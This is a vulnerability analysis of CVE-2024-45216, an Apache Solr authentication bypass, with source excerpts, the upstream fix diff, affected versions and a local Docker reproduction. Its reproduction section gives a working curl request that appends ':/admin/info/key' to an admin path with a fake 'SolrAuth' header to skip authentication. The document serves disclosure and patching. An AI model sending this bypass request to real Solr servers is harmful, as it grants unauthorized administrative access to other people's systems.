



# CVE-2024-45216 CWE-863&287 Solr Identity Bypass

## Vulnerability Background
**Solr :** A high-performance, scalable open-source enterprise-grade search engine platform built on Apache Lucene. It uses inverted index technology, enabling fast and efficient full-text retrievals of massive data, supporting import and indexing of various data formats (such as JSON, XML, etc.). Solr offers powerful query functions, including full-text search, filtered queries, sorting, grouping, and more, flexibly meeting different search needs. It also features distributed search and index replication functions, enabling high availability and load balancing, widely used in e-commerce search, content management, data analysis, and many other fields, helping enterprises enhance search experience and data processing capabilities.

## Vulnerability Mechanism
Solr's `PKIAuthenticationPlugin` plugin does not perform full validation on request paths ending with `/admin/info/key` when verifying requests. By constructing special request paths, all authentication logic can be bypassed.

## Vulnerability Location
1. In the solr/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java file, line 138 of the doAuthenticate method, line 145 fetches `requestURI` from the request and checks whether it is used as `PublicKeyHandler.PATH` (/ admin/info/key). If conditions are met, call `filterChain.doFilter(request, response)` to continue intercepting and processing the request, and return `true` to pass authentication.

   ```java
   PKIAuthenticationPlugin.java Document, line 138 
   public boolean doAuthenticate(
         HttpServletRequest request, HttpServletResponse response, FilterChain filterChain)
         throws Exception {
       long receivedTime = System.currentTimeMillis();
   
       ********** 145 lines **********
       String requestURI = request.getRequestURI();
       if (requestURI.endsWith(PublicKeyHandler.PATH)) {
         assert false : "Should already be handled by SolrDispatchFilter.authenticateRequest";
   
         numPassThrough.inc();
         filterChain.doFilter(request, response);
         return true;
       }
   
       // ...
   }
   ```

2. In the solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java file, line 226 of the init method, the condition statement at line 236 checks whether the path contains a colon: character; if it exists, it extracts the string before `':'` as the new `path` as the request path , and save the part after `':'` as `handler` path parameters. Therefore, you can bypass authentication by adding a forged URL snippet (:/admin/info/key) at the end of the API path.

   ```java
   HttpSolrCall.java Document, line 226
   protected void init() throws Exception {
       // check for management path
       String alternate = cores.getManagementPath();
       if (alternate != null && path.startsWith(alternate)) {
         path = path.substring(0, alternate.length());
       }
   
       queryParams = SolrRequestParsers.parseQueryString(req.getQueryString());
   
       // ********** 236 **********
       int idx = path.indexOf(':');
       if (idx > 0) {
         // save the portion after the ':' for a 'handler' path parameter
         path = path.substring(0, idx);
       }
         
         // ...
     }
   ```

## Remediation
- PKIAuthenticationPlugin.java: Removes special grants to `/admin/info/keys` (public key interface) to prevent plugins from `doFilter` early and returning true, which would cause authentication to be skipped
- HttpSolrCall.java: Remove colons to truncate logic, and postpone idx variables to where they are truly needed, so that the complete URI (including colon suffixes) can enter plugins and subsequent processing chains as is

```diff
diff --git a/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java b/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java
index 0b966e5419a..b1f6e6b6eed 100644
--- a/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java
+++ b/solr/core/src/java/org/apache/solr/security/PKIAuthenticationPlugin.java
@@ -141,15 +141,6 @@ public boolean doAuthenticate(
     // Getting the received time must be the first thing we do, processing the request can take time
     long receivedTime = System.currentTimeMillis();
 
-    String requestURI = request.getRequestURI();
-    if (requestURI.endsWith(PublicKeyHandler.PATH)) {
-      assert false : "Should already be handled by SolrDispatchFilter.authenticateRequest";
-
-      numPassThrough.inc();
-      filterChain.doFilter(request, response);
-      return true;
-    }
-
     PKIHeaderData headerData = null;
     String headerV2 = request.getHeader(HEADER_V2);
     String headerV1 = request.getHeader(HEADER);
diff --git a/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java b/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java
index cfa81f40c47..16bd180815f 100644
--- a/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java
+++ b/solr/core/src/java/org/apache/solr/servlet/HttpSolrCall.java
@@ -219,13 +219,6 @@ protected void init() throws Exception {
 
     queryParams = SolrRequestParsers.parseQueryString(req.getQueryString());
 
-    // unused feature ?
-    int idx = path.indexOf(':');
-    if (idx > 0) {
-      // save the portion after the ':' for a 'handler' path parameter
-      path = path.substring(0, idx);
-    }
-
     // Check for container handlers
     handler = cores.getRequestHandler(path);
     if (handler != null) {
@@ -237,7 +230,7 @@ protected void init() throws Exception {
     }
 
     // Parse a core or collection name from the path and attempt to see if it's a core name
-    idx = path.indexOf('/', 1);
+    int idx = path.indexOf('/', 1);
     if (idx > 1) {
       origCorename = path.substring(1, idx);
```

## Affected Versions
- Apache Solr 5.3.0 before 8.11.4
- Apache Solr 9.0.0 before 9.7.0

## Environment Setup
Start the Docker environment with Solr version 9.6.0 and enable authentication solr:SolrRocks

```txt
ADP:CISA-ADP   Base Score:9.8 CRITICAL   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:apache:solr:9.6.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. By accessing the following URL, you will see Solr returns error 401: Missing authentication information

   ```bash
   curl --path-as-is -i -s -k -X $'GET' \
       -H $'Host: localhost:8983' \
       $'http://localhost:8983/solr/admin/cores'
   ```

   

2. Add :/admin/info/key after the URL and add the SolrAuth field in the request body to successfully bypass authentication and access directly

   ```bash
   curl --path-as-is -i -s -k -X $'GET' \
       -H $'Host: localhost:8983' -H $'SolrAuth: 11' \
       $'http://localhost:8983/solr/admin/cores:/admin/info/key'
   ```

   

## PoC Analysis
Only when the `header` is `PKIAuthenticationPlugin.HEADER` or `PKIAuthenticationPlugin.HEADER_V2` (i.e., `SolrAuth` and `SolrAuthV2`), and the `cores.getPkiAuthenticationSecurityBuilder()` is not null, is the current authentication plugin `PKIAuthenticationPlugin`, Otherwise, it's `BasicAuthPlugin`.

## References
[NVD - CVE-2024-45216](https://nvd.nist.gov/vuln/detail/CVE-2024-45216#range-16809751)

[[SOLR-17417\] Authentication bypass possible using a fake :/admin/info/key URL Path ending - ASF JIRA](https://issues.apache.org/jira/browse/SOLR-17417)

[SOLR-17417: Remove unecessary code in PKIAuthPlugin and HttpSolrCall · apache/solr@bd61680](https://github.com/apache/solr/commit/bd61680bfd351f608867739db75c3d70c1900e38)

[Apache Solr Identity Bypass Vulnerability (CVE-2024-45216) Analysis and Discoveries - Prophet Community](https://xz.aliyun.com/news/15670)
